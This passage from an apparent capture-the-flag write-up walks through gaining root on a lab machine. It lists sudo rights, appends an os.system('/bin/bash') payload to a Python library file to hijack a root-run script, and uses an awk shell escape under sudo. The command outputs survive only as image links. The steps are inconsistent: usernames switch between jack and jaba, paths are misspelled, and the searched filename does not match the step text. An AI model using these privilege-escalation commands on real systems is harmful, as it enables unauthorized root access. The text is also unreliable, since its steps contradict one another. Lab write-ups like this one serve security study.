





5.3 Get root (Second flag)
1. Let see jaba's privileges.
jack@jabita:~$ sudo -l
Output:

This user “jaba” can run “/usr/bin/python3" and "/user/bin/clean.py” as “root” user with no password.
2. Show the contents of "/user/bin/clean.py”.
jaba@jabita:~$ cat /usr/bin/clean.py
Output:

3. Find "clean.py” on the system.
jaba@jabita:~$ find / -iname wild.py 2>/dev/null
Output:

4. Add the payload to the "/usr/lib/python3.10/wild.py" file.
jaba@jabita:~$ echo import 'os; os.system("/bin/bash")' >> /usr/lib/python3.10/wild.py
5. Run the following commands.
jack@jabita:~$ sudo -u jaba awk 'BEGIN {system("/bin/bash")}'
Output:

6. Run the following commands.
root@jabita:/home/jack# cd /root
root@jabita:~# ls
root@jabita:~# cat root.txt
Output:
